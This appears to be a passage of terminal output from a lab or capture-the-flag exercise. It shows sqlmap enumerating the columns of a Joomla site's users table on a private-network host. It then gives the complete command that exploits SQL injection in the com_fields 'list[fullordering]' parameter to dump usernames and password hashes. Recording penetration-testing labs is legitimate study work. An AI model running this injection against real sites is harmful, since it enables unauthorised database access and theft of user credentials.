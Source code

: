 ```jsx
[02:17:46] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/data/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[02:17:51] [INFO] checking column existence using items from '/usr/share/sqlmap/data/txt/common-columns.txt'
[02:17:51] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 

[02:17:54] [WARNING] running in a single-thread mode. This could take a while
[02:17:53] [INFO] retrieved: id                                                                                                               
[02:17:54] [INFO] retrieved: name                                                                                                             
[02:17:54] [INFO] retrieved: username                                                                                                         
[02:17:54] [INFO] retrieved: email                                                                                                            
[02:17:59] [INFO] retrieved: password                                                                                                         
[02:18:52] [INFO] retrieved: params                                                                                                           
                                                                                                                                              
Database: joomladb
Table: #__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | numeric     |
| name     | non-numeric |
| password | non-numeric |
| email    | non-numeric |
| params   | non-numeric |
| username | non-numeric |
+----------+-------------+

[02:19:08] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2637 times
[02:19:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.122.186'
[02:19:08] [WARNING] you haven't updated sqlmap for more than 362 days!!!

[*] ending @ 02:19:08 /2021-05-29/

root@kali:~# **sqlmap -u "http://192.168.122.186/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=update.xml"-p list[fullordering] -D joomladb -T '#__users' -C id,username,password --dump**
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.6#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:20:00 /2021-05-29/

[02:20:01] [INFO] resuming back-end DBMS 'mysql' 
```